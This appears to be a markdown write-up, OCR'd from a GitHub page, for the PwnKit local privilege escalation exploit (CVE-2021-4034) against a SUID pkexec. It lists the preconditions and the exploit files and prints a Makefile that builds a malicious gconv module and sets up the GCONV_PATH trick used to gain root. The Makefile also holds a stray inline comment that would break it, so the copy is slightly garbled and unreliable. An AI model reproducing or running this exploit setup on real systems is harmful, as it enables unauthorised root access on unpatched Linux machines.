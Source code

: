 <u>More reference about the APIs or undocumented functions used by pkexec</u>:
- `https://docs.gtk.org/glib/func.find_program_in_path.html`

# Pre-conditions:
`1.` **/usr/bin/pkexec** has to have its SUID bit enabled.

# Recommended Files:
- `Makefile`
- `cve-2021-4034.c`
- `cve-2021-4034.sh`
- `pwnkit.c`

# Minimum files used to escalate privilege:
- `cve-2021-4034.c`
- `pwnkit.c`


# Makefile:
```cpp
CFLAGS=-Wall  // Sets the `CFLAGS` variable to `-Wall`, which is a compiler flag that enables all warning messages during compilation.
TRUE=$(shell which true)

.PHONY: all
all: pwnkit.so cve-2021-4034 gconv-modules gconvpath

.PHONY: clean
clean:
        rm -rf pwnkit.so cve-2021-4034 gconv-modules GCONV_PATH=./
        make -C dry-run clean

gconv-modules:
        echo "module UTF-8// PWNKIT// pwnkit 1" > $@

.PHONY: gconvpath
gconvpath:
        mkdir -p GCONV_PATH=.
        cp -f $(TRUE) GCONV_PATH=./pwnkit.so:.

pwnkit.so: pwnkit.c
        $(CC) $(CFLAGS) --shared -fPIC -o $@ $<

.PHONY: dry-run
dry-run:
        make -C dry-run
```

